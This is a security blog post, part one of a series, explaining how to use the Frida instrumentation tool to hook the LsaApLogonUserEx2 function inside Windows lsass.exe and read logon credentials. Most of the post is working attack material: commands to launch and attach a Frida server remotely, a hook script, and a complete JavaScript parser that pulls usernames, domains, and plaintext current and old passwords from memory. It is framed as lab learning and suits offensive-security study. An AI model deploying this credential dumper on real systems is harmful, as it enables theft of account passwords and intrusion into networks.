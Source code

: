 ```yaml
---
title: Dumping Lsass with... Frida? (Part 1)
description: A blog about dynamic instrumentation of Lsass for fun and profit!
---
```


# Dumping Lsass with... Frida? (Part 1)

Recently I've been getting into [Frida](https://frida.re/), a great debugging and dynamic instrumentation tool with cross-platform support. Before I looked into it, I'd only ever heard of Frida as a tool for hacking mobile apps - I'd never considered it for anything else. However, I think Frida has just as much potential as a rapid prototyping tool for reverse engineering and exploit development. It's agile, portable and fast, which makes it an excellent choice for experimenting and tinkering with a process.

I've had advice in the past that writing your own Mimikatz implementation is one of the best ways to get familiar working with memory hacking in Windows. A credential dumper that requires you to execute and connect to a Frida server on the target probably wouldn't be your first choice on an engagement. However, it's also not something I've seen anyone else doing, and I hoped that the end result would be a kind of "intermediary" tool that could be trivially ported to other languages. 

In this first part, we'll focus on taking advantage of Frida's dynamic instrumentation features to backdoor Lsass remotely. In future articles, we'll explore dumping credentials directly from Lsass memory.

## Step 1: Exploring Lsass

You can find a wealth of tools and tutorials out there which discuss how mimikatz works and how to dump credentials from the process memory of Lsass. I wanted to make a start completely blind, though, and see what I could discover with Frida alone.

To start with, I spun up a Windows 10 VM and launched the latest version of Frida server as Administrator:

```powershell
> .\frida-server.exe -l 0.0.0.0
```

This opens a debugging server on port 27042, which we can connect to using Frida:

```bash
$ frida -H 192.168.1.120 lsass.exe
```

One of Frida's most powerful features is its dynamic instrumentation functionality, which lets us hook almost any function used by a process. Before we can do that, though, we'll need some basic situational awareness. There are a lot of different modules loaded by the *lsass.exe* process, which we can enumerate using `Process.enumerateModules()`. Here's just one of the results:

```text
    {
        "base": "0x7ffd1ca30000",
        "name": "msv1_0.DLL",
        "path": "C:\\Windows\\system32\\msv1_0.DLL",
        "size": 483328
    },
```

Out of the many possible options, this one stands out - it's the Microsoft Authentication Package, which is invoked by LSA when a user performs an interactive logon. According to [Microsoft's documentation](https://learn.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package):

> The MSV1_0 package checks the local security accounts manager (SAM) database to determine whether the logon data belongs to a valid security principal and then returns the result of the logon attempt to the LSA.

If we're looking to hook into the authentication logic called by Lsass, this seems like a pretty good place to start.

## Step 2: Hooking MSV1_0

So, now we have a good idea of which module we want to target, but how do we know which functions to hook in order to extract credentials? This is where *frida-trace* comes to the rescue. Instead of writing dozens of boilerplate scripts to inject into each possible function, we can simply specify the module we're interested in and hook all functions within it:

```bash
frida-trace -H 192.168.1.120 lsass.exe -i 'msv1_0.DLL!*'
```

We leave this running while we invoke an interactive logon somewhere on the target VM (i.e. using the *runas* command), and sure enough:

![a screenshot of various hooked functions including LsaApLogonUserEx2](/img/tracing-msv1_0.png)

I decided to go with the obvious choice here, and target the *LsaApLogonUserEx2()* function. Luckily for us, this function is actually [documented in the MSDN](https://docs.microsoft.com/en-us/windows/win32/api/ntsecpkg/nc-ntsecpkg-lsa_ap_logon_user_ex2). That will make hooking it a lot easier, as we know exactly what the arguments and expected return values are.

```text
LSA_AP_LOGON_USER_EX2 LsaApLogonUserEx2;

NTSTATUS LsaApLogonUserEx2(
  [in]  PLSA_CLIENT_REQUEST ClientRequest,
  [in]  SECURITY_LOGON_TYPE LogonType,
  [in]  PVOID ProtocolSubmitBuffer,
  [in]  PVOID ClientBufferBase,
  [in]  ULONG SubmitBufferSize,
  [out] PVOID *ProfileBuffer,
  [out] PULONG ProfileBufferSize,
  [out] PLUID LogonId,
  [out] PNTSTATUS SubStatus,
  [out] PLSA_TOKEN_INFORMATION_TYPE TokenInformationType,
  [out] PVOID *TokenInformation,
  [out] PUNICODE_STRING *AccountName,
  [out] PUNICODE_STRING *AuthenticatingAuthority,
  [out] PUNICODE_STRING *MachineName,
  [out] PSECPKG_PRIMARY_CRED PrimaryCredentials,
  [out] PSECPKG_SUPPLEMENTAL_CRED_ARRAY *SupplementalCredentials
)
```

Armed with this information, we can see that the thing we probably care about is the *PrimaryCredentials* variable, which is the 15th argument passed to the function. Now we know enough to write our own Frida script:

```text
var msv = Process.getModuleByName("msv1_0.DLL");
var logonUser = msv.getExportByName("LsaApLogonUserEx2");

Interceptor.attach(logonUser, {
	onEnter: function(args) {
		this.primaryCredentials = args[14];
	},
	onLeave: function(retval) {
		console.log("Address of primary credentials is " + this.primaryCredentials);
	}
});
```

So far, the script is pretty simple. We identify the address of the function and attach to it with Frida's interceptor. When the function is entered, we save the address of the PrimaryCredentials array. When the function exits, we print the address. To test it out, simply inject the script into Frida:

```bash
$ frida -H 192.168.1.120 lsass.exe -l LsaApLogonUserEx2.js
```

And invoke another interactive logon.

## Step 3: Parsing PrimaryCredentials

So, now we can hook the *LsaApLogonUserEx2()* function and get a pointer to the PrimaryCredentials structure. How do we turn that into actual credential information? The PrimaryCredentials structure is of type *PSECPKG_PRIMARY_CRED*, which means it's a pointer to a *SECPKG_PRIMARY_CRED* struct. Happily for us, that struct is [documented for us as well](https://docs.microsoft.com/en-us/windows/win32/api/ntsecpkg/ns-ntsecpkg-secpkg_primary_cred):

```text
typedef struct _SECPKG_PRIMARY_CRED {
  LUID           LogonId;
  UNICODE_STRING DownlevelName;
  UNICODE_STRING DomainName;
  UNICODE_STRING Password;
  UNICODE_STRING OldPassword;
  PSID           UserSid;
  ULONG          Flags;
  UNICODE_STRING DnsDomainName;
  UNICODE_STRING Upn;
  UNICODE_STRING LogonServer;
  UNICODE_STRING Spare1;
  UNICODE_STRING Spare2;
  UNICODE_STRING Spare3;
  UNICODE_STRING Spare4;
} SECPKG_PRIMARY_CRED, *PSECPKG_PRIMARY_CRED;
```

This gives us all the information we need to write our own parser in Frida. We can "walk" through the struct by starting from our pointer and adding the size of each struct member to get to the next one. For example, the size of a *LUID* struct is 0x8, so we can do:

```javascript
var logonId = this.primaryCredentials;
var downLevelName = logonId.add(0x8);
```

By iterating through in this way, we can eventually get pointers to the members we actually care about: *DownLevelName*, *DomainName*, *Password* and *OldPassword*. Each of these elements is a *UNICODE_STRING* struct, which requires a bit of parsing themselves. The final parsing function is as follows:

```javascript
function parsePrimaryCredentials(ptr) {
	// Parse the SECPKG_PRIMARY_CRED structure pass to LsaApLogonUserEx2. 64-bit only.
	// Input: a pointer to the SECPKG_PRIMARY_CRED structure to be parsed.
	
	var size_luid = 0x8; // https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/igpupvdev/ns-igpupvdev-_luid
	var size_unicode_string = 0x10; // https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/shared/ntdef/unicode_string.htm
	
	// Reference for struct members:
	// https://docs.microsoft.com/en-us/windows/win32/api/ntsecpkg/ns-ntsecpkg-secpkg_primary_cred

	// Calculate the address of each member by adding the sizeof the previous member.
	var logonId = ptr;
	var downLevelName = logonId.add ( size_luid );
	var domainName = downLevelName.add( size_unicode_string );
	var password = domainName.add( size_unicode_string );
	var oldPassword = password.add( size_unicode_string );

	// Read the length from each unicode string. Divide by 2 because we are reading UTF 16 strings.
	// Length is located at offset 0x0 in the UNICODE_STRING struct.
	var downLevelNameLength = downLevelName.readUShort() / 2;
	var domainNameLength = domainName.readUShort() / 2;
	var passwordLength = password.readUShort() / 2;
	var oldPasswordLength = oldPassword.readUShort() / 2;

	// Use the length values to read the correct number of bytes from each unicode string.
	// Buffer is located at offset 0x8 in the UNICODE_STRING struct.
	var downLevelNameBuffer = downLevelName.add(0x8).readPointer().readUtf16String(downLevelNameLength);
	var domainNameBuffer = domainName.add(0x8).readPointer().readUtf16String(domainNameLength);
	var passwordBuffer = password.add(0x8).readPointer().readUtf16String(passwordLength);
	var oldPasswordBuffer = oldPassword.add(0x8).readPointer().readUtf16String(oldPasswordLength);

	//Return results.
	var output = {
		"sam_account": downLevelNameBuffer,
		"domain": domainNameBuffer,
		"password": passwordBuffer,
		"old_password": oldPasswordBuffer
	}
	return output;
}
```

And the final result when running it against my Windows 10 VM and initiating an interactive logon:

![a screenshot of dumped credentials from a user logon](/img/dumping-msv1_0.png)

## Conclusion

Hooking functions and changing their behaviour is Frida's bread and butter, and we've demonstrated just how easy it is to backdoor Lsass with Frida. All you need to do so is a little bit of Javascript, a little bit of C struct knowledge, and local admin. In the next part, we'll move away from hooking functions. Instead, we'll look into replicating Mimikatz functionality by extracting credentials directly from memory.

